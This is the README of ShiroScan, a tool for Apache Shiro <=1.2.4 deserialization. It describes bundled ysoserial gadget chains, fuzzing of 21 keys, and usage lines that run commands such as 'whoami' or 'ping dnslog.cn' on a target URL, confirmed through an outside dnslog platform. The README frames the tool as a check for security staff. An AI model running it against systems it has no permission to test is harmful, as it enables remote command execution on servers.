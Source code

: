 # ShiroScan
Shiro&lt;=1.2.4反序列化，一键检测工具

    改动内容：1.新增4个利用链模块(CommonsCollections7-10)，预计增加成功率30%，已打包成新ysoserial的jar包，请勿更换
    改动内容：2.增加多线程，虽模块增加但速度却提高300%

```
集成21个key进行fuzz
```

* 如果有帮助，请点个star哦，blog：http://www.svenbeast.com/post/tskRKJIPg/
* pip3 install -r requirments.txt     

* Usage：python3 shiro.py  url  command
* Usage：python3 shiro.py  http://url.com  whoami

* http://www.dnslog.cn/   验证推荐使用这个dnslog平台，速度比ceye.io要快很多
* 执行的命令带空格记得用""引起来

* usage：python3 shiro.py  http://url.com  "ping dnslog.cn"
* 11个模块全部跑一遍,然后去dnslog平台查看是否收到请求，不出来就GG，也可能是因为编码还不够多

* 请自行收集编码，在moule下的源代码中自行添加方法即可

* 为了脚本运行简单，多线程数量不是使用者传参控制，默认20线程，如需改动请到/moule/main.py第20行代码自行修改控制线程的参数
## 不推荐当做exp使用，效率问题
## 仅供安全人员验证,测试是否存在此漏洞
